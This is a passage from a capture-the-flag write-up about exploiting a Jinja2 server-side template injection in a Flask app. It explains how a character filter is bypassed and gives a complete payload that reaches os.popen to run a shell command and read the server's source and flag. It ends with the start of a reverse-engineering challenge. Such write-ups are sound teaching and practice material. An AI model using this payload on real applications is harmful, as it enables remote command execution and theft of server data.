 Since `request.form["q"]` is passed to `Template()`, `/ask` looks vulnerable to Server-Side Template Injection (SSTI). However, it seems to be difficult to exploit because the server rejects if the user input contains any one of `._%`.

So, how do we bypass these restrictions?

After reading through [Jinja2 Documentation](http://jinja.pocoo.org), I noticed that [attr filter](http://jinja.pocoo.org/docs/2.10/templates/#attr) can be used for the alternative to access attributes of objects. For instance, `().__class__` can be replaced with `()|attr("\x5f\x5fclass\x5f\x5f")`.

Using these techniques, we can get the flag with `{% raw %}{{{% endraw %}((((()|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[59]|attr("\x5f\x5frepr\x5f\x5f")|attr("im\x5ffunc")|attr("func\x5fglobals"))["linecache"]|attr("os")|attr("popen"))("cat fort\x2epy")|attr("read"))()}}`.

```python
from flask import Flask, session

SECKEY = "some random key for signing 70657529378630738104827452603621"
FLAG = "ASIS{Kn0cK_knoCk_Wh0_i5_7h3re?_4nee_Ane3,VVh0?_aNee0neYouL1k3!}"
CORRECT_BEHAVIOUR = list(map(int, "34515465413625214253"))
PERFECT_CREDIT = sum([ x for x in range(len(CORRECT_BEHAVIOUR)) ])

def history():
    return session.get("history", [])

def visit(door):
    session["history"] = history() + [door]
    if len(session["history"]) > len(CORRECT_BEHAVIOUR):
        session["history"] = session["history"][-len(CORRECT_BEHAVIOUR):]

def credit():
    credit = 0
    hst = history()
    for i in range(len(hst)):
        for j in range(len(hst) - i):
            if hst[i + j] == CORRECT_BEHAVIOUR[j]:
                credit += j
            else:
                break
    return credit

def trustworthy():
    return credit() == PERFECT_CREDIT
```

```
ASIS{Kn0cK_knoCk_Wh0_i5_7h3re?_4nee_Ane3,VVh0?_aNee0neYouL1k3!}
```

## [Reverse 93] Key maker
> The Keymaker: Only the One can open the door. And only during that window can that door be opened.
> Niobe: How do you know all this?
> The Keymaker: I know because I must know. It is my purpose. It is the reason I am here. The same reason we are all here.
> Attachments: key_maker.exe
